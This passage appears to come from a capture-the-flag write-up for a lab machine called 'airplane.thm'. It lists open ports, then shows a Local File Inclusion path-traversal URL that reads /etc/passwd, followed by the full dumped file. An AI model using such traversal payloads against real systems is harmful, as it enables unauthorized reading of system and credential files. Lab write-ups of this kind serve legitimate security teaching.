 - 22/tcp - OpenSSH 8.2p1 (Ubuntu)

- 6048/tcp - Unknown service

- 8000/tcp - Werkzeug HTTP server (Python 3.8)

The web service on port 8000 caught my attention, especially since it returned a header pointing to a custom domain: http://airplane.thm:8000/?page=index.html.

To resolve the domain locally, I added an entry to my `/etc/hosts` file:


## Investigating the Web Service

After visiting the site, it looked like a simple static page. However, I noticed that the URL parameter `page=index.html` might be injectable. I decided to test for Local File Inclusion (LFI) by modifying the parameter to reference `/etc/passwd`:

```
http://airplane.thm:8000/?page=../../../../etc/passwd
```

It worked — I successfully dumped the contents of `/etc/passwd`. This confirmed the LFI vulnerability.

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:115::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:109:116:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
usbmux:x:110:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:111:117:RealtimeKit,,,:/proc:/usr/sbin/nologin
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
cups-pk-helper:x:113:120:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/run/speech-dispatcher:/bin/false
avahi:x:115:121:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
saned:x:117:123::/var/lib/saned:/usr/sbin/nologin
nm-openvpn:x:118:124:NetworkManager OpenVPN,,,:/var/lib/openvpn/chroot:/usr/sbin/nologin
hplip:x:119:7:HPLIP system user,,,:/run/hplip:/bin/false
whoopsie:x:120:125::/nonexistent:/bin/false
colord:x:121:126:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
fwupd-refresh:x:122:127:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
geoclue:x:123:128::/var/lib/geoclue:/usr/sbin/nologin
```